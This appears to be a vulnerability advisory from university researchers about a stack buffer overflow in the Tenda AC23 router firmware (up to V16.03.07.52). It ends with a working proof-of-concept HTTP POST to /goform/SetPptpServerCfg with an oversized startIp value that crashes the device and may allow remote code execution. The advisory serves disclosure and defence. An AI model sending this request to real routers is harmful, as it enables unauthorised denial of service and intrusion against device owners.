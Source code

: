 ## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information

**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC23

**Affected firmware version:** <= V16.03.07.52

**Firmware download address:** [AC23 升级软件_腾达Tenda官方网站](https://www.tenda.com.cn/material/show/3889)

## Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC23 router, V16.03.07.52, where an attacker sent a well-crafted http post packet to the request path /goform/SetPptpServerCfg, triggering a denial of service attack or even RCE, specifically via the function sscanf(s, "%[^.].%[^.].%[^.].%s", v10, v11, v12, &v12[8]) because there is no bounds check on s, causing a stack overflow

## Vulnerability details

It can be found that when the serverEn value is 1, it will enter the else branch to call sub_478E94 function

![](img/1.png)

When the startIp and endIp are not empty, the sscanf function causes the buffer to overflow

![](img/2.png)

## POC

```
POST /goform/SetPptpServerCfg HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

serverEn=1&endIp=aa&startIp=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa
```

![](img/3.png)

![](img/4.png)
